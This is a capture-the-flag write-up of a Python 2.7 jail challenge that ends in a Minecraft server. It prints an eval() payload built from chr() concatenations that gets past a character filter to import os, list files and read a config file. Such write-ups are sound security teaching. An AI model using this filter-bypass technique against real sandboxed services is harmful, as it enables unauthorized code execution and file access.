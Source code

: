 ```yaml
---
title: X-MAS CTF 2018 - Krampus' Code Block
layout: post
author: "mr96"
category: misc
tags: misc python pyjail minecraft
---
```

This challenge took us a lot more time than it should have. We're only given a netcat connection, where we can "talk" to Krampus.

## Solution
Writing `help` we discover that Krampus is simply a Python 2.7 interpreter, so we need to find a bug in some function in order to exploit it. Playing a bit with him we can see that we can use `chr(), input(), print(), eval()` and some useless functions, but none of these with strings, dots, commas, underscores, etc..

After a lot of time we figure out that the right strategy is to use `eval()` encoding the string as a concatenation of `chr()` results.

Again, after some trial and error we found that `eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(108)+chr(105)+chr(115)+chr(116)+chr(100)+chr(105)+chr(114)+chr(40)+chr(39)+chr(46)+chr(39)+chr(41))` works and lists the files in Krampus' directory (it is `eval("__import__('os').listdir('.')")`). Then the struggle begins: we have some py files with the source, an `instruction.txt` file that says that we need to connect to `server.jar` (that is another file) to play with Krampus, and some setting files for the server. Using `eval("open('server.properties').read()")` (obviously encoded as before) we found this

```
#Minecraft server properties
#Sat Dec 22 14:06:58 UTC 2018
player-idle-timeout=0
motd=A Minecraft Server
force-gamemode=false
server-ip=
pvp=true
spawn-npcs=true
spawn-animals=true
generate-structures=true
gamemode=0
server-port=25565
difficulty=1
prevent-proxy-connections=false
use-native-transport=true
resource-pack=
resource-pack-sha1=
online-mode=true
allow-flight=false
```

So it is a Minecraft server! From now, we spent about an hour to try to encode in base64 the server and download it, but it was too big and he stopped answering after a few seconds. Then we tried to run the server on Krampus' as a jar file, but nothing happened. Then we had the idea that it was a real Minecraft server, so we donwloaded the client and... It worked!

From now, it was only 90 painful minutes of playing minecraft to find the flag in the map.
